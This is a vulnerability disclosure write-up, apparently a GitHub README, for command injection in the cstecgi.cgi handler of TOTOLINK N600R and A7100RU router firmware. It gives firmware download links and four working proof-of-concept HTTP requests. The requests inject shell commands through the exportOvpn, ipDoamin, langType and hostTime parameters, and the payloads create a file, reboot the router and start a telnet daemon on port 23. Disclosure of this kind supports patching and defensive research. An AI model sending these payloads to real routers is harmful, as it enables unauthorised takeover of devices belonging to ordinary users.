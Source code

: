 # TOTOlink N600R Comand Injection

### Venda

ToTolink N600R http://totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

link :http://totolink.net/data/upload/20200728/5fa781d2e6a17e1ed1cbf6f169810809.zip

Firmware: TOTOLINK_C8160R-1C_N600R_IP04291_8196D_SPI_4M32M_V4.3.0cu.7570_B20200620_ALL.web

ToTolink 7100RU:

Firmware_link: http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Firmware: TOTOLINK_C8540R-1C_A7100RU_IP04365_MT7621AMT7615Ex2_SPI_16M128M_V7.4cu.2313_B20191024_ALL.web

### Describe

​	N600R设备存在命令执行漏洞，攻击者可以利用此漏洞获取服务器权限

​	A command execution vulnerability exists in the n600r device, which allows an attacker to gain server privileges

### Vulnerability1

#### Detail

​	Received the environment variable QUERY_STRING in the cstecgi.cgi binary file, which is the URL to visit

<img src="./img/image-20211111143526075.png" alt="image-20211111143526075" style="zoom:50%;" />

​	Later, it will be judged whether there is exportOvpn, and it is found that it can cause command injection by constructing a url request

<img src="./img/image-20211111142430082.png" alt="image-20211111142430082" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;touch${IFS}1.txt;&filetype=gz HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

aaaaa
```

### Vulnerability2

#### Detail

​	It exists in the cstecgi.cgi file. In the function of testing Ping, JSON data can be passed in, resulting in unconditional arbitrary command execution

<img src="./img/image-20211111122344967.png" alt="image-20211111122344967" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Origin: http://192.168.0.1
Accept-Language: en-US,en;q=0.5
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/adm/diagnosis.asp?timestamp=1636595925423
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 95

{"topicurl": "setting/setDiagnosisCfg", "actionFlag": "1", "ipDoamin": "www.baidu.com\rreboot"}
```



### Vulnerability3

#### Detail

​	The vulnerability lies in cstecgi.cgi file, there is a command injection vulnerability at the place where the language is changed, which can lead to the execution of unauthenticated commands

​	A command injection vulnerability exists in the cstecgi.cgi file where the language is changed

<img src="./img/image-20211111141004575.png" alt="image-20211111141004575" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 79
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/title.asp

{"topicurl":"setting/setLanguageCfg","langType":"cn;telnetd${IFS}-p${IFS}23;"}	
```



### Vulnerability4

#### Detail

​	The vulnerability lies in cstecgi.cgi file, there is command injection at the time of obtaining the system time, resulting in the execution of unauthenticated commands

<img src="./img/image-20211111141412938.png" alt="image-20211111141412938" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 83
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/ntp.asp?timestamp=1636598045521
Cookie: SESSION_ID=2:1609945786:2

{"topicurl":"setting/NTPSyncWithHost","hostTime":"2021-11-11 10:34:09'\nreboot\n'"}
```

#### 
